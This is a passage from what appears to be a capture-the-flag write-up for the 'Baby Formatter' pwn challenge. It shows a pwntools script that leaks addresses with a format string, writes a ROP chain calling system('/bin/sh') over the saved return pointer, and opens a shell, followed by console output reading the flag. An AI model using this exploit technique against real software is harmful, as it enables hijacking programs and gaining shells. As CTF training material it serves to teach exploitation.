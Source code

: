 ```py
# [=========== LEAK VIA 13TH 13TH ARG ============]
p.sendlineafter(b'>> ', b'2')
p.sendlineafter(b'>> ', b'%13$#lX*********AAAABBBB****')
binary_leak = int( p.recvuntil(b'*').strip()[:-1], 16 )

# [============= CALCULATE BASE ADDR =============]
libc_base = libc_leak - libc.symbols['fgets']
binary_base = binary_leak - 0x14d1
saved_ret_pointer = stack_leak + 0x18
payload_start_location = saved_ret_pointer + 16
pop_rbp_ret = binary_base + 0x0000000000001223

# [=============== PREPARE PAYLOAD ===============]
rop = ROP(libc)
payload  = b''
payload += p64( libc_base + rop.find_gadget(['ret']).address )
payload += p64( libc_base + rop.find_gadget(['pop rdi', 'ret']).address )
payload += p64( libc_base + next(libc.search(b'/bin/sh\x00')) )
payload += p64( libc_base + libc.symbols['system'] )
print('Payload length : {} bytes'.format(len(payload)))

# [================ SEND PAYLOAD =================]
for i, c in enumerate(payload):
    arb_write_single(payload_start_location + i , c)
    print('Sending payload {:.2f}%...'.format( (i * 100) / (len(payload) - 1) ), end='\n' if i == len(payload) - 1 else '\r' )

# [============ OVERWRITE RET POINTER ============]
arb_write_double(saved_ret_pointer, pop_rbp_ret & 0xffff)

# [================= START SHELL =================]
p.clean()
p.interactive()
```
{: file="pwn.py"}

```console
> python pwn.py
[*] '/home/vulnx/Games/CTFs/BackdoorCTF/pwn/Baby Formatter/challenge'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
    RUNPATH:  b'.'
Payload length : 32 bytes
Sending payload 100.00%...
$ ls
chall
flag
ld-linux-x86-64.so.2
libc.so.6
$ cat flag
flag{F0rm47_5tr1ng5_4r3_7o0_3asy}
$
```

## FLAG

`flag{F0rm47_5tr1ng5_4r3_7o0_3asy`

